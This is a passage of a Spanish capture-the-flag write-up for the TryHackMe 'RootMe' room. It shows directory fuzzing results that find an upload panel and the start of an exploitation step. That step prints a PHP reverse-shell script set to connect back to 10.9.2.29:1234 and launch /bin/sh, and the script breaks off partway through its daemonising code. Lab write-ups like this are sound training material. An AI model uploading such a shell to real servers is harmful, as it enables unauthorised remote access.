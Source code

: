 ```shell
000000164:   200        15 L     49 W       741 Ch      "uploads"                                                                                 
000000550:   200        17 L     67 W       1123 Ch     "css"                                                                                     
000000953:   200        16 L     60 W       956 Ch      "js"                                                                                      
000005520:   200        22 L     47 W       732 Ch      "panel"

```

Ahora iremos a _/panel/_ alli veremos un sitio para subir archivos
[Panel-RootMe](http://rootme.thm/panel)

![](https://alvar-yoel.github.io/images/RootMe/panel.PNG)


# [](#header-4)Explotacion
Lo que vamos a hacer es crear un archivo **.php** malicioso para ver si lo interpreta la _web_
```shell
parrot-hacking@RootMe:~$ nano reverse.php
```

Contenido del archivo **PHP**(Esta en monkeypentester)
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.9.2.29';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
```
